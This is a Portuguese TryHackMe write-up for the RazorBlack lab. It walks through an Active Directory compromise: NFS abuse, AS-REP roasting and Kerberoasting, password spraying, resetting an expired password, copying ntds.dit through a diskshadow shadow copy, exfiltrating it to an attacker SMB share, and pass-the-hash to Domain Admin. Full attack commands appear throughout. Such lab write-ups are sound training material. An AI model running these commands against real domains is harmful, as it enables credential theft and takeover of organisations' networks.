Writeup da sala RazorBlack do TryHackMe: reconhecimento, abuso de NFS mal configurado,
AS-REP Roasting e Kerberoasting contra o domínio, troca de password aproveitando uma conta expirada,
extração do ntds.dit via shadow copy com SeBackupPrivilege, e finalmente
Pass-the-Hash até Domain Admin. As flags foram mascaradas de propósito — é contra as regras do TryHackMe
publicá-las em claro.
01 Preparar o /etc/hosts
sudo cat /etc/hosts
O raz0rblack.thm e o HAVEN-DC ficam apontados no /etc/hosts para o IP do alvo, para usar nomes em vez de IP solto em todos os comandos seguintes.

02–03 nmap completo ao controlador de domínio
nmap -sC -sV -p- 10.130.144.100
A scan completa (todas as portas) revela um Windows Server cheio de serviços típicos de um DC: 53 (DNS), 88 (Kerberos), 111 (rpcbind), 2049 (NFS), 389 (LDAP), 445 (SMB), 3389 (RDP), 5985 (WinRM) e 9389. O próprio RDP entrega a identidade: domínio RAZ0RBLACK, máquina HAVEN-DC, e o SMB exige message signing. Scan concluída em 159 segundos.

04 NFS aberto a todos
showmount -e 10.130.144.100 sudo mount -t nfs 10.130.144.100:/users /tmp/nfs
O showmount revela a exportação /users disponível para "everyone". Sem
sudo o ls dá "Permissão recusada"; com sudo aparecem dois ficheiros:
employee_status.xlsx e sbradley.txt.

05 AS-REP Roasting ao domínio
sudo impacket-GetNPUsers raz0rblack.thm/ -usersfile users.txt \ -no-pass -dc-ip 10.130.144.100 -format hashcat
Dos 4 utilizadores testados, só o twilliams não tem Kerberos pre-authentication ativado, e o GetNPUsers devolve o hash AS-REP dele, pronto para quebrar offline.

06–07 hashcat quebra o hash AS-REP
sudo hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt
Em modo 18200 (AS-REP), o hashcat recupera a password do twilliams a partir do rockyou.txt. Status final: Cracked, 1/1 (100%).

08–09 Password spray com crackmapexec
crackmapexec smb 10.130.144.100 -u users.txt -p '<password-twilliams>' --continue-on-success
O spray confirma as credenciais do twilliams e revela algo útil sobre outro utilizador:
sbradley responde STATUS_PASSWORD_MUST_CHANGE — a password dele está expirada
e pode ser trocada sem conhecer a antiga.

10–11 Reset de password do sbradley
impacket-changepasswd raz0rblack.thm/sbradley:'<password-twilliams>'@10.130.144.100 \ -newpass 'NovaPass123!' crackmapexec smb 10.130.144.100 -u sbradley -p 'NovaPass123!'
Aproveitando o STATUS_PASSWORD_MUST_CHANGE, o impacket-changepasswd troca
a password do sbradley sem precisar de a saber antes. O crackmapexec confirma as novas credenciais válidas no DC.

12–13 smbmap revela a partilha "trash"
smbmap -H 10.130.144.100 -u sbradley -p 'NovaPass123!' smbclient //10.130.144.100/trash -U 'sbradley%NovaPass123!'
Além das partilhas normais (SYSVOL, NETLOGON, IPC$), aparece uma partilha extra chamada
trash, READ ONLY — "Files Pending for deletion". Dentro: chat_log,
sbradley.txt e um interessante experiment_gone_wrong.zip.

14–15 Quebrar o zip e extrair o ntds.dit
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt experiment_gone_wrong.zip unzip experiment_gone_wrong.zip
O fcrackzip parte a password do zip logo à primeira tentativa com o rockyou.
Dentro do arquivo: system.hive e ntds.dit — nada menos que a base de dados de
passwords do domínio inteiro, esquecida numa partilha de "lixo".
16–17 secretsdump local — primeiro dump de hashes
impacket-secretsdump -system system.hive -ntds ntds.dit LOCAL
O secretsdump decifra o NTDS.dit (encontra a PEK) e despeja os hashes NTLM e as chaves Kerberos (AES256/AES128/DES) de todo o domínio — Administrator, HAVEN-DC$ e dezenas de utilizadores.

18–19 Pass-the-Hash para lvetrova e 1ª flag
evil-winrm -i 10.130.144.100 -u lvetrova -H <hash-ntlm-lvetrova> # dentro da shell: $cred = Import-Clixml C:\Users\lvetrova\lvetrova.xml $cred.GetNetworkCredential().Password
Com o hash NTLM do dump, o evil-winrm abre PowerShell como lvetrova sem precisar da password em
claro. Na pasta do utilizador há um PSCredential cifrado com DPAPI — descifrável no contexto do
próprio utilizador, revelando a primeira flag da sala.
Flag: THM{●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●} (oculta de propósito)
falhou Tentativa com john no zip
zip2john experiment_gone_wrong.zip > zip.hash sudo john --wordlist=/usr/share/wordlists/rockyou.txt zip.hash
O que correu mal: a sessão do john correu até ao fim (Session completed)
sem quebrar nada. A solução já tinha vindo do fcrackzip mais cedo — fica registado o caminho que
não funcionou, para referência futura.
21 Kerberoasting ao xyan1d3
sudo impacket-GetUserSPNs raz0rblack.thm/twilliams:'<password>' \ -dc-ip 10.130.144.100 -request
Com as credenciais do twilliams, o GetUserSPNs -request devolve o TGS do xyan1d3
(SPN HAVEN-DC/xyan1d3.raz0rblack.thm:60111, membro de Remote Management Users).

22–23 hashcat parte o TGS e 2ª flag
hashcat -m 13100 tgs_hash.txt /usr/share/wordlists/rockyou.txt evil-winrm -u xyan1d3 -p '<password-recuperada>' -i 10.130.144.100
Em modo 13100 o hashcat quebra o TGS em apenas 6 segundos. A shell como xyan1d3 revela outro PSCredential cifrado — e mais uma flag.
Flag: THM{●●●●●●●●●●●●●●●●●●●●●●●●●●●●●●} (oculta de propósito)
24 SeBackupPrivilege encontrado
whoami /priv
O ouro está aqui: o utilizador xyan1d3 tem SeBackupPrivilege ativo — permite
ler qualquer ficheiro no disco, incluindo o ntds.dit em uso pelo sistema, via shadow copy.

falhou ×4 A saga do diskshadow
Esta foi a parte mais trabalhosa da máquina — vale a pena registar os quatro erros seguidos antes da solução:
1) diskshadow /s diskshadow.txt
→ só imprime a ajuda do SET CONTEXT: o script gerado com echo + Out-File
não separava as linhas corretamente.
2) robocopy /b z:\Windows\NTDS C:\Temp ntds.dit
→ ERROR 3: o disco z: nem existia, porque a shadow copy nunca
chegou a ser criada.
3) diskshadow /s C:\Temp\diskshadow.txt (script reescrito linha a linha
com Add-Content)
→ novo erro: "The .cab metadata file cannot be stored in the current
working directory, because it is read-only." Faltava o SET METADATA.
4) Get-Content C:\Temp\diskshadow.txt | Format-Hex
→ confirma que as linhas do script estavam corretas; o problema
era mesmo a falta do SET METADATA, não a sintaxe.
Lição: o diskshadow precisa sempre de um diretório writable definido com
SET METADATA antes de qualquer SET CONTEXT ou CREATE.
30–33 Shadow copy criada e ntds.dit copiado
set metadata C:\Temp\meta.cab set context persistent nowriters add volume c: alias xyan create expose %xyan% z: robocopy /b z:\Windows\NTDS C:\Temp ntds.dit robocopy /b z:\Windows\System32\config C:\Temp SYSTEM
Com o SET METADATA a apontar para um diretório gravável, a shadow copy é criada e
exposta como z:\. Dessa letra, o robocopy consegue copiar o ntds.dit (16 MB) e
o hive SYSTEM (16,5 MB) sem erros — FAILED 0 nos dois.


34–39 Exfiltração e secretsdump final
# Na Kali: impacket-smbserver share /tmp/smb_share -smb2support # No DC (evil-winrm): copy C:\Temp\ntds.dit \\<ip-kali>\share\ copy C:\Temp\SYSTEM \\<ip-kali>\share\ # De volta na Kali: impacket-secretsdump -ntds /tmp/smb_share/ntds.dit -system /tmp/smb_share/SYSTEM LOCAL
Com um impacket-smbserver à escuta na Kali, os dois ficheiros são copiados
diretamente do DC. O secretsdump final, já com os ficheiros reais (não a cópia truncada da partilha trash),
devolve o hash NTLM completo do Administrator do domínio.

